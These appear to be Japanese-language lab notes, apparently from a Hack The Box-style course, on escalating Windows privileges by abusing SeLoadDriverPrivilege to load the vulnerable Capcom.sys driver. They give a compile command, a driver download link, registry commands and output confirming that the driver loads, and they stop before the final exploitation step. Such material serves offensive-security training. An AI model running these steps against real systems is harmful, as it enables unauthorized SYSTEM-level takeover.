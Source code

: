 ### ドライバーロード権限の悪用
- ドライバー Capcom.sys を使えば、任意のユーザーがSYSTEM権限でシェルコードを実行できる
- SeLoadDriverPrivilegeを利用して、この脆弱なドライバーをロードし、権限を昇格させることができる
このPoCは、特権を有効化し、ドライバーをロードする機能も含んでいる
- 使い方 : Visual Studio 2019 Developer Command Promptから、cl.exe を使用してコンパイルする
```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```
コンパイル
```Visual-Studio-2019-Developer-Command-Prompt
C:\Users\mrb3n\Desktop\Print Operators>cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```

ドライバーへの参照の追加
- ここからCapcom.sys ドライバーをダウンロードし、C:\temp に保存する
	- https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys
HKEY_CURRENT_USERツリーの下にこのドライバーへの参照を追加する
```cmd-session
C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```
- 悪意のあるドライバーの ImagePath を参照するために使用される奇妙な構文 `\??\` は、NTオブジェクトパス
	- Win32 APIはこのパスを解析・解決して、悪意のあるドライバーを適切に見つけ、ロードする

特権が有効化されていることの確認
- EnableSeLoadDriverPrivilege.exe バイナリを実行する
```cmd-session
C:\htb> EnableSeLoadDriverPrivilege.exe

whoami:
INLANEFREIGHT0\printsvc

whoami /priv
SeMachineAccountPrivilege        Disabled
SeLoadDriverPrivilege            Enabled
SeShutdownPrivilege              Disabled
SeChangeNotifyPrivilege          Enabled by default
SeIncreaseWorkingSetPrivilege    Disabled
NTSTATUS: 00000000, WinError: 0
```

Capcomドライバーがリストされていることの確認
- 次に、Capcomドライバーがリストされるようになったことを確認する
```powershell-session
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom

Driver Name           : Capcom.sys
Filename              : C:\Tools\Capcom.sys
```
